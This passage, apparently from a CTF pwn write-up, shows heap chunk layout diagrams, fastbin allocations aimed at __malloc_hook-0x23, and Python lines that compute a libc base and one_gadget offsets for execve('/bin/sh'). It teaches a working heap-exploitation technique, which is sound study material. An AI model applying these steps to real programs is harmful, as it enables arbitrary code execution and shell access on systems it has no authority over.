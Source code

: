 ```assembly
    20 [      ][0x51]   1
    30 [ 0x91 ][0x91]
    40 [ 0x91 ][0x91]   2  *
    50 [  fd  ][ bk ]      *
    60 [      ][    ]      *
    70 [ 0x31 ][0x31]      *
    80 [      ][0x51]   3  *
    90 [ 0x00 ][0x00]      *
    A0 [ 0x00 ][0x00]      *
    B0 [ 0x00 ][0x00]      *
    C0 [ 0x00 ][0x00]      *
    D0 [ 0x00 ][0x71]   4  *
    E0 [M-0x23][    ]      *
    F0 [      ][    ]      *
    100[      ][    ]      *
    110[      ][    ]      *
    120[      ][    ]      *
    130[      ][    ]      *
    Top chunk
    '''

allocate(0x60)
    '''
    00 [      ][0x21]   0
    10 [ 0x51 ][0x51]
    20 [      ][0x51]   1
    30 [ 0x91 ][0x91]
    40 [ 0x91 ][0x91]   2  *
    50 [  fd  ][ bk ]      *
    60 [      ][    ]      *
    70 [ 0x31 ][0x31]      *
    80 [      ][0x51]   3  *
    90 [ 0x00 ][0x00]      *
    A0 [ 0x00 ][0x00]      *
    B0 [ 0x00 ][0x00]      *
    C0 [ 0x00 ][0x00]      *
    D0 [ 0x00 ][0x71]   4
    E0 [MHK-23][    ]
    F0 [      ][    ]
    100[      ][    ]
    110[      ][    ]
    120[      ][    ]
    130[      ][    ]
    Top chunk
    '''
allocate(0x60)
# 取fastbins[0x70]链表的下一个节点，
# 即上一个chunk的fd所指向的节点——malloc_hook-0x23处的节点。

libc_addr = mallock_hook - libc.symbols['__malloc_hook']
one_gadget = libc_addr + 0x4526a
    '''
    0x45216 execve("/bin/sh", rsp+0x30, environ)
    constraints:
      rax == NULL

    0x4526a execve("/bin/sh", rsp+0x30, environ)
    constraints:
      [rsp+0x30] == NULL

    0xf02a4 execve("/bin/sh", rsp+0x50, environ)
    constraints:
      [rsp+0x50] == NULL
```